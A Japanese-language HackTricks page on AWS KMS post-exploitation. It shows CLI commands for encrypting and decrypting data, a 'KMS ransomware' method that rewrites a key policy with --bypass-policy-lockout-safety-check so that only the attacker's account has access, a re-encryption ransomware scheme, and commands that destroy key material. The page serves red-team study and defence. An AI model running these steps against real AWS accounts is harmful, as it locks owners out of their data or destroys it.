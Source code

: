 # AWS - KMSポストエクスプロイテーション

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
- **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出**してください。

</details>

## KMS

詳細については、以下をチェックしてください：

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 情報の暗号化/復号化

* **対称**キーを使用
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **非対称**キーを使用する:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:'というエラーが発生した場合、kms decryptを実行しようとするときは、**`fileb://`**の代わりに**`--ciphertext-blob file://`**を使用してみてください。

**`file://`**の使用により、CLIを使用する際に好みのエンコーディングで書かれたファイルを使用する便益が得られます。
CLIのバージョン1.6.3以降では、別の方法としてファイルの内容をCLIに渡すための**`fileb://`**にアクセスできます。これは**`file://`**と似ていますが、ファイルの内容をテキストとしてではなくバイナリとして読み取ります。

ほとんどの場合、**`file://`**はファイルの内容を入力として渡すためのユースケースを満たします。ただし、一部のケースでは、テキストとしてではなくバイナリとしてファイルの内容を渡すために**`fileb://`**を使用する必要があります。
AWSの詳細はこちらから確認できます: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

特権アクセス権を持つ攻撃者は、KMS上でキーのKMSポリシーを変更し、**自分のアカウントにアクセス権を付与**し、正規のアカウントに付与されたアクセス権を削除することができます。

その後、正規のアカウントユーザーは、それらのキーで暗号化されたサービスの情報にアクセスできなくなり、アカウント上で簡単かつ効果的なランサムウェアが作成されます。

{% hint style="warning" %}
この攻撃には**AWS管理キーは影響を受けません**が、**顧客管理キー**は影響を受けます。

また、この攻撃を行うためには、パラメータ**`--bypass-policy-lockout-safety-check`**を使用する必要があります（このオプションがWebコンソールにないため、この攻撃はCLIからのみ可能です）。
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
そのポリシーを変更して外部アカウントにのみアクセス権を与え、その外部アカウントから元のアカウントにアクセス権を戻す新しいポリシーを設定しようとしても、それはできません。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 一般的な KMS ランサムウェア

#### グローバル KMS ランサムウェア

別の方法でグローバル KMS ランサムウェアを実行する方法があります。これには次の手順が含まれます:

* 攻撃者によってインポートされたキー素材を持つ新しい**キーを作成**
* 以前のバージョンで暗号化された古いデータを新しいもので**再暗号化**
* **KMS キーを削除**
* 今や元のキー素材を持つ攻撃者だけが暗号化されたデータを復号できるようになります

### キーの破棄
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWSは今、**クロスアカウントから前述のアクションを実行することを防止**しています。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を使用して、ゼロからヒーローまでAWSハッキングを学びましょう！</summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝**したい場合や、**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**Telegramグループ**](https://t.me/peass)に**参加**したり、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)で**フォロー**する
- **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>
